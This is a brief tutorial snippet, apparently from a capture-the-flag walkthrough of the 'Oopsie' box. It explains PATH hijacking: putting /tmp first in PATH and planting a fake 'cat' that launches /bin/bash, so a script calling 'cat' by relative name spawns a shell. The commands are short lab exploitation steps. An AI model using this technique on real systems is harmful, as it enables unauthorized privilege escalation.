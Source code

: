 Relative Command Bash Script

# Relative Command Bash Script

If any command is running inside the script and we wanted to execute our command on it. 
Like cat command

Let’s add the **current working directory to PATH**, create the **malicious binary and make it executable**.

```
robert@oopsie:/$ export PATH=/tmp:$PATH
robert@oopsie:/$ cd /tmp
robert@oopsie:/tmp$ echo '/bin/bash' > cat
robert@oopsie:/tmp$ chmod +x cat
```

On executing the script in tmp folder, cat command will **execute our cat command** rather than **/usr/bin/cat**
